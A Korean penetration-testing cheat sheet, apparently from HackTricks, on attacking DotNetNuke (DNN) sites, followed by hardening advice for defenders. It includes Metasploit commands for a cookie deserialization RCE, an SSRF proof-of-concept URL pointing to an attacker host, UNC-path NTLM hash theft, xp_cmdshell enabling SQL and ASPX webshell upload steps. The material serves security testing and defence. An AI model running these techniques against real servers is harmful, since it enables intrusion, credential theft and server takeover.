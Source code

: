 # DotNetNuke (DNN)

{{#include ../../banners/hacktricks-training.md}}

## DotNetNuke (DNN)

DNN에 **관리자**로 로그인하면 **RCE**를 얻는 것이 쉽지만, 최근 몇 년 동안 여러 *비인증* 및 *인증 후* 기술이 발표되었습니다. 다음 치트 시트는 공격 및 방어 작업 모두에 유용한 기본 요소를 수집합니다.

---
## 버전 및 환경 열거

* *X-DNN* HTTP 응답 헤더를 확인하세요 – 일반적으로 정확한 플랫폼 버전을 공개합니다.
* 설치 마법사는 `/Install/Install.aspx?mode=install`에서 버전을 유출합니다 (매우 오래된 설치에서 접근 가능).
* `/API/PersonaBar/GetStatus` (9.x)는 낮은 권한 사용자에 대해 `"dnnVersion"`을 포함하는 JSON 블롭을 반환합니다.
* 라이브 인스턴스에서 볼 수 있는 일반적인 쿠키:
* `.DOTNETNUKE` – ASP.NET 폼 인증 티켓.
* `DNNPersonalization` – XML/직렬화된 사용자 프로필 데이터가 포함되어 있습니다 (구버전 – 아래 RCE 참조).

---
## 비인증 취약점 이용

### 1. 쿠키 역직렬화 RCE  (CVE-2017-9822 및 후속)
*영향을 받는 버전 ≤ 9.3.0-RC*

`DNNPersonalization`은 내장된 404 핸들러가 활성화된 모든 요청에서 역직렬화됩니다. 따라서 조작된 XML은 임의의 가젯 체인 및 코드 실행으로 이어질 수 있습니다.
```
msf> use exploit/windows/http/dnn_cookie_deserialization_rce
msf> set RHOSTS <target>
msf> set LHOST  <attacker_ip>
msf> run
```
모듈은 패치되었지만 여전히 취약한 버전(CVE-2018-15811/15812/18325/18326)에 대해 올바른 경로를 자동으로 선택합니다. 7.x–9.1.x에서는 **인증 없이** 공격이 가능하며, 9.2.x+에서는 *검증된* 저권한 계정으로 가능합니다.

### 2. 서버 측 요청 위조 (CVE-2025-32372)
*영향을 받는 버전 < 9.13.8  –  패치가 2025년 4월에 출시됨*

구버전 `DnnImageHandler` 수정의 우회를 통해 공격자가 서버에 **임의의 GET 요청**을 하도록 강제할 수 있습니다(반-블라인드 SSRF). 실제 영향:

* 클라우드 배포에서 내부 포트 스캔 / 메타데이터 서비스 검색.
* 인터넷에서 방화벽으로 차단된 호스트에 접근.

개념 증명(대체 `TARGET` & `ATTACKER`):
```
https://TARGET/API/RemoteContentProxy?url=http://ATTACKER:8080/poc
```
요청은 백그라운드에서 트리거됩니다; 콜백을 위해 리스너를 모니터링하세요.

### 3. NTLM 해시 노출 via UNC 리디렉션 (CVE-2025-52488)
*영향을 받는 버전 6.0.0 – 9.x (< 10.0.1)*

특별히 조작된 콘텐츠는 DNN이 `\\attacker\share\img.png`와 같은 **UNC 경로**를 사용하여 리소스를 가져오도록 시도하게 만들 수 있습니다. Windows는 NTLM 협상을 기꺼이 수행하며, 서버 계정 해시를 공격자에게 유출합니다. **10.0.1**로 업그레이드하거나 방화벽에서 아웃바운드 SMB를 비활성화하세요.

### 4. IP 필터 우회 (CVE-2025-52487)
관리자가 관리 포털 보호를 위해 *Host/IP 필터*에 의존하는 경우, **10.0.1** 이전 버전은 리버스 프록시 시나리오에서 `X-Forwarded-For`를 조작하여 우회될 수 있음을 유의하세요.

---
## 인증 후 RCE

### SQL 콘솔을 통한
**`Settings → SQL`** 아래에 내장된 쿼리 창이 사이트 데이터베이스에 대한 실행을 허용합니다. Microsoft SQL Server에서 **`xp_cmdshell`**을 활성화하고 명령을 생성할 수 있습니다:
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO
xp_cmdshell 'whoami';
```
### ASPX 웹쉘 업로드 방법
1. **`Settings → Security → More → More Security Settings`**로 이동합니다.
2. **Allowable File Extensions**에 `aspx` (또는 `asp`)를 추가하고 **저장**합니다.
3. **`/admin/file-management`**로 이동하여 `shell.aspx`를 업로드합니다.
4. **`/Portals/0/shell.aspx`**에서 이를 트리거합니다.

---
## Windows에서의 권한 상승
**IIS AppPool\<Site>**로 코드 실행이 이루어지면, 일반적인 Windows 권한 상승 기술이 적용됩니다. 만약 시스템이 취약하다면 다음을 활용할 수 있습니다:

* **PrintSpoofer** / **SpoolFool**를 사용하여 *SeImpersonatePrivilege*를 악용합니다.
* **Juicy/Sharp Potatoes**를 사용하여 *Service Accounts*에서 탈출합니다.

---
## 강화 권장 사항 (블루 팀)

* **9.13.9** 이상으로 **업그레이드**합니다 (SSRF 우회 수정) 또는 바람직하게는 **10.0.1** (IP 필터 및 NTLM 문제).
* 설치 후 잔여 **`InstallWizard.aspx*`** 파일을 제거합니다.
* 아웃바운드 SMB (포트 445/139) 이탈을 비활성화합니다.
* DNN 내에서가 아니라 엣지 프록시에서 강력한 *Host Filters*를 시행합니다.
* 사용하지 않는 경우 `/API/RemoteContentProxy`에 대한 접근을 차단합니다.

## 참조

* Metasploit `dnn_cookie_deserialization_rce` 모듈 문서 – 실용적인 인증되지 않은 RCE 세부정보 (GitHub).
* GitHub 보안 자문 GHSA-3f7v-qx94-666m – 2025 SSRF 우회 및 패치 정보.
{{#include ../../banners/hacktricks-training.md}}

